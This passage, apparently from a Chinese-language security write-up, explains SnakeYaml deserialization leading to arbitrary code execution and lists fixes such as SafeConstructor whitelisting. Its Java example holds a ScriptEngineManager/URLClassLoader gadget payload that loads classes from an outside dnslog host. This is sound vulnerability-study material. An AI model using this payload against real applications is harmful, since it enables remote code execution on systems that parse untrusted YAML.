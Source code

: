 #### 漏洞分析
简而言之, `SnakeYaml`在调用`Yaml.load`反序列化的时候, 会调用到`JdbcRowSetImpl`类的`dataSourceName`属性的`setter`方法即`setDataSourceName`, 然后就触发后续一系列的利用链最后达到任意代码执行的目的.

### Others Gadgets
先鸽着, 等后面了解了相关知识点再来补, [参考文章](https://www.mi1k7ea.com/2019/11/29/Java-SnakeYaml%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E/#:~:text=Spring%20PropertyPathFactoryBean).

## 漏洞修复
 - 禁止`Yaml.load`参数可控.
 - 若需要反序列化, 则要过滤参数内容, 使用`SafeConstructor`对反序列化内容进行白名单控制.

```java
package org.h3rmesk1t.SnakeYaml;

import org.yaml.snakeyaml.Yaml;

public class ScriptEngineManagerExploit {

    public static void main(String[] args) {

        String poc = "!!javax.script.ScriptEngineManager [!!java.net.URLClassLoader [[!!java.net.URL [\"http://hfme12.dnslog.cn\"]]]]\n";
        Yaml yaml = new Yaml(new SafeConstructor());
        yaml.load(poc);
    }
}
```